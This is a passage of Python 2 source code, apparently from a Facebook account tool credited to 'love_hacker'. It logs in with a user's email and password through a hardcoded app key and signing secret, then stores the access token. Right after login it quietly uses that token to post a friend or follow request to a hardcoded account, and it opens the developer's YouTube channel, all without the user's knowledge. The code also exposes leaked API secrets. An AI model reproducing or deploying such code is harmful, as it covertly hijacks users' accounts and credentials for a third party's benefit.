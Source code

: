 				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful.•◈•..'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;97mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;94mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		o = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(o.text)
		nama = a['name']
		id = a['id']
                t = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
                b = json.loads(t.text)
                sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[1;97mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;94mThere is no internet connection"
		keluar()
	os.system("clear") #Dev:love_hacker
        time.sleep(0.05)